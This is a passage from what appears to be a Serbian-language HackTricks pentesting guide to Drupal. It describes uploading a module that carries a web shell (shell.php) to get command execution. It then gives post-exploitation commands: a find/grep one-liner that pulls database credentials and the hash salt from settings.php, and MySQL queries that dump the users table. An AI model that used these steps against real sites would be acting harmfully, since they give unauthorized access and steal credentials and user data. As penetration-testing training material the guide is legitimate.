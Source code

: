 * Pretpostavljajući da imamo **administrativni pristup** veb sajtu, kliknite na **`Upravljanje`** a zatim na **`Proširenja`** na bočnoj traci. Zatim kliknite na dugme **`+ Instaliraj novo proširenje`**, i bićemo preusmereni na stranicu za instalaciju, kao što je `http://drupal-site.local/admin/modules/install`. Pregledajte arhivu sa zakačenim Captcha i kliknite na **`Instaliraj`**.
* Nakon uspešne instalacije, pregledajte **`/modules/captcha/shell.php`** da biste izvršili komande.

## Post Eksploatacija

### Pročitajte settings.php

```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```

### Dump korisnika iz baze podataka

Da biste izvršili izvlačenje korisnika iz baze podataka, možete koristiti sledeće korake:

1. Identifikujte ciljnu bazu podataka u Drupalu.
2. Koristite odgovarajući alat za izvršavanje SQL upita na bazi podataka, kao što je phpMyAdmin ili MySQL komandna linija.
3. Izvršite sledeći SQL upit kako biste izvukli informacije o korisnicima:

```sql
SELECT * FROM users;
```

Ovaj upit će vam vratiti sve informacije o korisnicima iz tabele "users" u bazi podataka.

4. Sačuvajte rezultate upita u odgovarajuću datoteku kako biste ih kasnije analizirali.

Napomena: Budite pažljivi prilikom rukovanja ovim informacijama, jer pristup korisničkim podacima može biti nezakonit ili kršiti privatnost korisnika. Uvek se pridržavajte etičkih smernica i zakona prilikom izvršavanja ovih koraka.

```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```

## Reference

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
